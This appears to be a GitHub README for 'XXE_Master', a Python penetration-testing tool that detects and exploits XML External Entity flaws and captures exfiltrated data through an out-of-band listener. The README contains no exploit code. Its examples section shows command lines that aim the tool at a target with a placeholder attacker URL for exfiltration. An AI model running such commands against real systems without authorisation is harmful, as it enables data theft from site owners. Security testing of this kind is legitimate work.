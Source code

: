 # XXE_Master

XXE_Master is a powerful tool designed for detecting, exploiting, and reporting XML External Entity (XXE) vulnerabilities in web applications. This tool is intended for use by ethical hackers, penetration testers, and bug bounty hunters.It supports all operating systems (Linux Windows, and MacOS).

## Table of Contents
- [Features](#features)
- [Requirements](#requirements)
- [Installation](#installation)
- [Usage](#usage)
- [Examples](#examples)
- [Logging](#logging)
- [Contributing](#contributing)
- [License](#license)

## Features
- **Detection:** Identify XXE vulnerabilities in web applications.
- **Exploitation:** Automatically exploit detected vulnerabilities to demonstrate impact.
- **Reporting:** Generate detailed reports of detected vulnerabilities and their exploits.
- **Out-of-Band (OOB) Listener:** Capture exfiltrated data through an OOB listener.

## Requirements
- Python 3.x
- Required Python packages (listed in `requirements.txt`)

## Installation

### Installation Steps
1. Clone the repository: `git clone https://github.com/your-username/xxe_master.git`
2. Navigate to the project directory: `cd xxe_master`
3. Install XXE_Master: `pip install -r requirements.txt`

## Usage
- For usage instructions, run `python main.py --help`

## Examples
- **Scan a target for XXE vulnerabilities**:
  - Demonstration: This command will scan the specified target URL for XXE vulnerabilities and use the specified attacker URL for data exfiltration.
  - Example: `python main.py http://www.exampletest.com --attacker-url http://your-attacker-url.com`

- **Scan with custom delay and OOB listener settings**:
  - Demonstration: This command will scan the target URL with a custom delay of 5 seconds between outputs and will listen on port 9000 for out-of-band data.
  - Example: `python main.py http://www.exampletest.com --attacker-url http://your-attacker-url.com --delay 5 --listen-port 9000`

## Troubleshooting
- If you encounter any issues, please [open an issue](https://github.com/your-username/xxe_master/issues) on GitHub.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Author
El1E-l33t | Contact: [muhizielie01@gmail.com](mailto:muhizielie01@gmail.com) | Red Teamer, Penetration tester, and bug bounty hunter with a passion for security research.
